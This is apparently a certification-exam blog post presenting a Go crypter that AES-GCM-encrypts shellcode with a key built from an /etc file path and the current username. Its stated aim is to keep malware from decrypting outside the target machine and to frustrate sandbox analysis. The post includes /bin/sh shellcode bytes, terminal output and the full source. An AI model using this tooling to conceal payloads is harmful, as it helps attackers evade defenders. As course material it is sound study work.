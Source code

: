 
# Creating your own crypter using golang

In this article, we will build a simple crypter for encrypting and decrypting shellcode. I chose to implement the crypter in go using environmental keys.

I will not spend time implementing a fancy shellcode execution method in this article, only encryption and decryption methods are in scope for now.

## Encryption

The encryption/decryption process is using AES GCM and a specific file in `/etc/` concatenated with the current user logged in as the key. This is called *Environmental Keying*, meaning you use specific values found in the victim's environment such as files, hostname or users. The purpose of this is to make sure that your malware **only** executes in a specific environment. This means the attacker needs to know some details about the environment before encrypting any shellcode.

Analysing the shellcode will be difficult because the correct environment values are needed in order to successfully decrypt the shellcode. Relying on dynamic analysis in a sandbox is futile because of this reason.

The specific values that I have chosen for the key is the file path `/etc/vmware-tools/scripts/vmware/network` and current logged in user. The final key will look like this: `/etc/vmware-tools/scripts/vmware/networkdubs3c`.

The following example encrypts a simple shellcode that executes `/bin/sh`:

```
dubs3c@slae:~/SLAE/EXAM/github/assignment_7$ go run main.go -e -s "\xfc\xbb\x1b\x91\xcd\xc8\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x2a\x43\x9f\xa0\x22\x4c\x53\x59\xd2\xbd\xbc\xfb\x4b\x4b\x21\xca\x42\x7a\x66\x9d\x5f\xb0\xe6\xde\x5f\x4a\xe7\xde"
[+] Your encrypted shellcode: 5af9fb00a2147e12ba73c2686b1b25fac3f441ffcb6974b00ec7413208dc749dae128faf67a5db80fe868dc2386e30546409503beb9ea6973441dc0ace3b35563550e3041fdde2c234b7dbd36ce74f1653ac08ec3be1f6fac3dd6fc34b378477bf6a5acf7800d01ee1c9280d8f6e2ccb8b13f517e790cc6d6623df9b1ced1dc1ebd8df2caca412f6f9d8233bd233fd6c590b12211f0706fc18dca864e97908df4eb638c8b223afc57d59714db119a0075dc935a65a38b4fe175fc15ad2b03125303b98c991ac01238f61c10f444bd85ad081fe2d097f816345e2ab98436cae10033c1cd870502608eac6a3149688b992
dubs3c@slae:~/SLAE/EXAM/github/assignment_7$
```

## Decryption

The decryption function will loop over all files and folders in `/etc/` and try each file path as the key together with the current username. When the correct key is found, the shellcode is decrypted.

Decrypting shellcode:

```
dubs3c@slae:~/SLAE/EXAM/github/assignment_7$ go run main.go -d -s "5af9fb00a2147e12ba73c2686b1b25fac3f441ffcb6974b00ec7413208dc749dae128faf67a5db80fe868dc2386e30546409503beb9ea6973441dc0ace3b35563550e3041fdde2c234b7dbd36ce74f1653ac08ec3be1f6fac3dd6fc34b378477bf6a5acf7800d01ee1c9280d8f6e2ccb8b13f517e790cc6d6623df9b1ced1dc1ebd8df2caca412f6f9d8233bd233fd6c590b12211f0706fc18dca864e97908df4eb638c8b223afc57d59714db119a0075dc935a65a38b4fe175fc15ad2b03125303b98c991ac01238f61c10f444bd85ad081fe2d097f816345e2ab98436cae10033c1cd870502608eac6a3149688b992"
[+] Decrypted shellcode: \xfc\xbb\x1b\x91\xcd\xc8\xeb\x0c\x5e\x56\x31\x1e\xad\x01\xc3\x85\xc0\x75\xf7\xc3\xe8\xef\xff\xff\xff\x2a\x43\x9f\xa0\x22\x4c\x53\x59\xd2\xbd\xbc\xfb\x4b\x4b\x21\xca\x42\x7a\x66\x9d\x5f\xb0\xe6\xde\x5f\x4a\xe7\xde
dubs3c@slae:~/SLAE/EXAM/github/assignment_7$
```

## Final code

Below is the final program for encrypting/decrypting shellcode.

```go
package main

import (
    "crypto/aes"
    "crypto/cipher"
    "crypto/rand"
    "crypto/sha256"
    "encoding/hex"
    "flag"
    "fmt"
    "io"
    "os"
    "os/user"
    "path/filepath"
)

type cliOptions struct {
    encrypt   bool
    decrypt   bool
    shellcode string
}

func processArgs() cliOptions {
    opts := cliOptions{}
    flag.BoolVar(&opts.decrypt, "decrypt", false, "Decrypt your shellcode")
    flag.BoolVar(&opts.decrypt, "d", false, "Decrypt your shellcode")
    flag.BoolVar(&opts.encrypt, "encrypt", false, "Encrypt your shellcode")
    flag.BoolVar(&opts.encrypt, "e", false, "Encrypt your shellcode")
    flag.StringVar(&opts.shellcode, "shellcode", "", "Your shellcode")
    flag.StringVar(&opts.shellcode, "s", "", "Your shellcode")
    flag.Parse()

    return opts
}

func init() {
    flag.Usage = func() {
        h := "\nEncrypt your shellcode! Very nice! Made by @dubs3c.\n\n"

        h += "Usage:\n"
        h += "  cyrptoBoot [shellcode] [options]\n\n"

        h += "Options:\n"
        h += "  -e,  --encrypt      Encrypt shellcode\n"
        h += "  -d,  --decrypt      Decrypt shellcode\n"
        h += "  -s,  --shellcode    Shellcode\n"
        h += "  -v,  --version      Show version\n"

        h += "\nExamples:\n"
        h += "  cryptoBoot -e -s \"<shellcode>\"\n"
        h += "  cryptoBoot -d -s \"<shellcode>\"\n"

        fmt.Fprintf(os.Stderr, h)
    }
}

func encrypt(shellcode string, envKey []byte) (encryptedShellcode []byte, err error) {
    plaintext := []byte(shellcode)

    block, err := aes.NewCipher(envKey)
    if err != nil {
        panic(err.Error())
    }

    // Never use more than 2^32 random nonces with a given key because of the risk of a repeat.
    nonce := make([]byte, 12)
    if _, err := io.ReadFull(rand.Reader, nonce); err != nil {
        panic(err.Error())
    }

    aesgcm, err := cipher.NewGCM(block)
    if err != nil {
        panic(err.Error())
    }

    ciphertext := aesgcm.Seal(nil, nonce, plaintext, nil)
    ciphertextWithNonce := append(nonce, ciphertext...)
    encodedCiphertext := make([]byte, hex.EncodedLen(len(ciphertextWithNonce)))
    hex.Encode(encodedCiphertext, ciphertextWithNonce)
    return encodedCiphertext, nil
}

func decrypt(ciphertext string, envKey []byte) (plaintext []byte, err error) {
    ciphertxt, _ := hex.DecodeString(ciphertext[24:])
    nonce, _ := hex.DecodeString(ciphertext[:24])

    block, err := aes.NewCipher(envKey)
    if err != nil {
        return []byte{}, err
    }

    aesgcm, err := cipher.NewGCM(block)
    if err != nil {
        return []byte{}, err
    }

    plaintxt, err := aesgcm.Open(nil, nonce, ciphertxt, nil)
    if err != nil {
        return []byte{}, err
    }

    return plaintxt, nil
}

func main() {

    if len(os.Args) <= 1 {
        flag.Usage()
        os.Exit(0)
    }

    opts := processArgs()

    currentUser := &user.User{}
    currentUser, err := user.Current()
    envPath := "/etc/vmware-tools/scripts/vmware/network"
    envKey := sha256.Sum256([]byte(envPath + currentUser.Username))

    if opts.encrypt {
        if opts.shellcode == "" {
            fmt.Println("[-] Please specify your shellcode")
            os.Exit(1)
        }

        ciphertext, err := encrypt(opts.shellcode, envKey[:])
        if err != nil {
            fmt.Println("[-] Something went wrong encrypting your shellcode. Error: ", err)
            os.Exit(1)
        }

        fmt.Printf("[+] Your encrypted shellcode: %s\n", ciphertext)
        return
    }

    if opts.decrypt {

        if opts.shellcode == "" {
            fmt.Println("[-] Please specify your encrypted shellcode")
            os.Exit(1)
        }

        encryptedShellcode := opts.shellcode

        err = filepath.Walk("/etc/", func(path string, info os.FileInfo, err error) error {
            envKey := sha256.Sum256([]byte(path + currentUser.Username))
            plaintext, err := decrypt(encryptedShellcode, envKey[:])
            if err != nil {
                // Disregard errors
                return nil
            } else {
                fmt.Printf("[+] Decrypted shellcode: %s\n", plaintext)
            }
            return nil
        })

        if err != nil {
            fmt.Printf("error walking the path %q: %v\n", "/etc/", err)
            return
        }
    }
}

```

---
This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[https://www.pentesteracademy.com/course?id=3](https://www.pentesteracademy.com/course?id=3)

Student ID: SLAE-1490
